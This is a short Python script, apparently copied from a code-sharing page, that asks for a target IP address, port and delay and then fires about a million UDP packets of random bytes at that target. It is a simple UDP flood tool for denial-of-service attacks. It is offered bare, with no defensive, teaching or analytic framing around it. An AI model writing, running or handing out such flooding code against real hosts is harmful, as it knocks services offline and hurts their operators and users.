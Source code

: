 import socket
import random
import time

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
ip = input("Target-IP:")
port = int(input("Target-Port: "))
sleep = float(input("Sleep: "))

s.connect((ip, port))

for i in range(1, 1001000):
    s.send(random._urandom(1000))
    print(f"Senden: {i}", end='\r')
    time.sleep(sleep)
